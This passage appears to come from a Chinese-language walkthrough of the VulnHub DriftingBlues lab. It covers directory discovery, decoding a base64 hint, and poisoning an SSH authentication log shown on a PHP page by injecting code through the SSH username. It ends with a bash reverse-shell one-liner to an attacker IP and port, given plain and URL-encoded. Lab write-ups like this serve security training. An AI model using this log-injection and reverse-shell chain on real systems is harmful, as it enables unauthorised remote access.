 ![](D:\stu\vulnhub\DriftingBlues靶场\pic-3\9.jpg)

访问`eventadmins/`目录

![](D:\stu\vulnhub\DriftingBlues靶场\pic-3\10.jpg)

翻译一下，发现`/littlequeenofspades.html`页面

![](D:\stu\vulnhub\DriftingBlues靶场\pic-3\11.jpg)

访问`/eventadmins`

![](D:\stu\vulnhub\DriftingBlues靶场\pic-3\12.jpg)

# 漏洞寻找

查看页面源代码，发现编码`aW50cnVkZXI/IEwyRmtiV2x1YzJacGVHbDBMbkJvY0E9PQ==`

![](D:\stu\vulnhub\DriftingBlues靶场\pic-3\13.jpg)

解码这个

![](D:\stu\vulnhub\DriftingBlues靶场\pic-3\14.jpg)

访问`/adminsfixit.php`，发现是`ssh`连接的认证日志，通过测试发现确实会记录`ssh`登录时的用户名、地址和端口

```shell
ssh test@192.168.1.60
```

![](D:\stu\vulnhub\DriftingBlues靶场\pic-3\15.jpg)

尝试连接，修改`ssh`连接时的用户为`php`脚本，测试是否可以

![](D:\stu\vulnhub\DriftingBlues靶场\pic-3\16.jpg)

访问页面

![](D:\stu\vulnhub\DriftingBlues靶场\pic-3\17.jpg)

测试是否可行

![](D:\stu\vulnhub\DriftingBlues靶场\pic-3\18.jpg)

# 漏洞利用

尝试使用`bash`命令反弹

```shell
bash -c 'bash -i >& /dev/tcp/192.168.1.16/9999 0>&1'
进行URL编码
bash+-i+>%26+%2fdev%2ftcp%2f192.168.1.16%2f9999+0>%261%0a
```
